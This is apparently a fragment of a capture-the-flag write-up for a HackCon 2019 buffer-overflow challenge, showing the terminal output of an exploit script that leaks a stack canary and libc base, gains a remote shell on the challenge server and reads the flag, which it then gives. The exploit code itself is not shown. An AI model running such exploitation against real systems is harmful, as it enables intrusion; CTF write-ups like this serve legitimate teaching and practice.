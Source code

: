 Output:
```sh
vagrant@ubuntu-xenial:/ctf/hackcon2019/pwn/not_so_easy_b0f$ ./exploit.py REMOTE
[*] '/ctf/hackcon2019/pwn/not_so_easy_b0f/b0f'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/hackcon2019/pwn/not_so_easy_b0f/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
REMOTE PROCESS
[+] Opening connection to 68.183.158.95 on port 8991: Done
[*] canary: 0x7131e60513e19300
[*] libc base: 0x7fd2cb3c0000
[*] one_gadget: 0x7fd2cb405216
[*] Switching to interactive mode
Enter sentence : $ ls
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
q3
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag.txt
d4rk{H3ll0_R0p}c0de
$  
```

Flag: `d4rk{H3ll0_R0p}c0de`
